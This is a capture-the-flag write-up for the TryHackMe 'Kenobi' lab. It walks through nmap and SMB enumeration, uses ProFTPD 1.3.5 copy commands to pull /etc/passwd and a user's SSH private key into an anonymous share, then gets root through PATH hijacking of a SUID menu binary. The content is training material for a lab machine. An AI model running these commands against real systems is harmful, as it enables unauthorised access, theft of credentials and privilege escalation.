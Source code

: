 ```yaml
---
title: "Kenobi"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2021-11-21 02:33:29 +05:30
categories: [Writeups, TryHackMe]
tags: [THM, ProFTPD, PATH]
render_with_liquid: false
---
```


## Enumeration

- `nmap -Pn -p- -A 10.10.114.180`

```
PORT      STATE SERVICE     REASON         VERSION
21/tcp    open  ftp         syn-ack ttl 60 ProFTPD 1.3.5
22/tcp    open  ssh         syn-ack ttl 60 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8m00IxH/X5gfu6Cryqi5Ti2TKUSpqgmhreJsfLL8uBJrGAKQApxZ0lq2rKplqVMs+xwlGTuHNZBVeURqvOe9MmkMUOh4ZIXZJ9KNaBoJb27fXIvsS6sgPxSUuaeoWxutGwHHCDUbtqHuMAoSE2Nwl8G+VPc2DbbtSXcpu5c14HUzktDmsnfJo/5TFiRuYR0uqH8oDl6Zy3JSnbYe/QY+AfTpr1q7BDV85b6xP97/1WUTCw54CKUTV25Yc5h615EwQOMPwox94+48JVmgE00T4ARC3l6YWibqY6a5E8BU+fksse35fFCwJhJEk6xplDkeauKklmVqeMysMWdiAQtDj
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBpJvoJrIaQeGsbHE9vuz4iUyrUahyfHhN7wq9z3uce9F+Cdeme1O+vIfBkmjQJKWZ3vmezLSebtW3VRxKKH3n8=
|   256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGB22m99Wlybun7o/h9e6Ea/9kHMT0Dz2GqSodFqIWDi
80/tcp    open  http        syn-ack ttl 60 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/admin.html
111/tcp   open  rpcbind     syn-ack ttl 60 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      44864/udp6  mountd
|   100005  1,2,3      50049/tcp6  mountd
|   100005  1,2,3      54921/tcp   mountd
|   100005  1,2,3      57249/udp   mountd
|   100021  1,3,4      34301/udp   nlockmgr
|   100021  1,3,4      42343/tcp   nlockmgr
|   100021  1,3,4      45217/tcp6  nlockmgr
|   100021  1,3,4      52968/udp6  nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp   open  netbios-ssn syn-ack ttl 60 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn syn-ack ttl 60 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp  open  nfs_acl     syn-ack ttl 60 2-3 (RPC #100227)
33291/tcp open  mountd      syn-ack ttl 60 1-3 (RPC #100005)
36651/tcp open  mountd      syn-ack ttl 60 1-3 (RPC #100005)
42343/tcp open  nlockmgr    syn-ack ttl 60 1-4 (RPC #100021)
54921/tcp open  mountd      syn-ack ttl 60 1-3 (RPC #100005)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2021-11-21T07:00:52-06:00
| nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KENOBI<00>           Flags: <unique><active>
|   KENOBI<03>           Flags: <unique><active>
|   KENOBI<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-time:
|   date: 2021-11-21T13:00:52
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 4604/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 57188/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 40874/udp): CLEAN (Failed to receive data)
|   Check 4 (port 43903/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 2h00m09s, deviation: 3h27m51s, median: 8s
```

### SMB

```
nmap -Pn -sV -p 139,445 --script=smb-os-discovery,'smb-vuln*','smb-enum*' 10.10.114.180
```

```
\\10.10.114.180\anonymous:
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
```

- `smbclient --no-pass \\\\10.10.114.180\\anonymous`
- `get log.txt`
- `cat log.txt`

```
Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:C17GWSl/v7KlUZrOwWxSyk+F7gYhVzsbfqkCIkr2d7Q kenobi@kenobi
```

- We got the path to SSH keys which will be useful later.

---

## Exploitation

- Google or searchsploit ProFTPd 1.3.5
- [ProFTPd 1.3.5 File Copy Exploit](https://www.exploit-db.com/exploits/36742)
- Everything copied to `/home/kenobi/share/` using FTP file copy exploit was accessible through `/anonymous` share using `smbclient`.

```
FTP Anonymous Login =>

ftp> site cpfr /etc/passwd
350 File or directory exists, ready for destination name
ftp> site cpto /home/kenobi/share/passwd
250 Copy successful

ftp> site cpfr /etc/samba/smb.conf
350 File or directory exists, ready for destination name
ftp> site cpto /home/kenobi/share/smb.conf
250 Copy successful

ftp> site cpfr /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
ftp> site cpto /home/kenobi/share/id_rsa
250 Copy successful
```

- Then get these files from `/anonymous` share. 
- `smbclient --no-pass \\\\10.10.114.180\\anonymous`

```
smb:\> ls 
log.txt, passwd, id_rsa, smb.conf

smb:\> get id_rsa
```

- Change the permissions on `id_rsa` file.
- `chmod 600 id_rsa`
- `ssh -i id_rsa kenobi@10.10.114.180` 
- `whoami` <span class="fat-arrow">=></span> `kenobi`

---

## Privilege Escalation with PATH Manipulation 

- `find / -perm -u=s -type f 2>/dev/null`
- There is an odd looking `/usr/bin/menu` entry.
- `strings /usr/bin/menu` 

```
strings /usr/bin/menu

1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
```

- It is calling `curl`, `uname`, and `ifconfig` without absolute path.
- We can create a binary named as either of these 3 in `/tmp` and add it to path.
- `cp /bin/bash /tmp/curl` OR
- `echo "/bin/bash -p" > /tmp/curl`
- `export PATH=/tmp:$PATH`
- Now when `curl` is invoked without absolute path (`/usr/bin/curl`), it will be invoked from `/tmp/curl`

```bash
echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/
```

- `/usr/bin/menu` <span class="fat-arrow">=></span> Press 1 as it invoked `curl`
- We get a root shell
- `whoami` <span class="fat-arrow">=></span> `root`

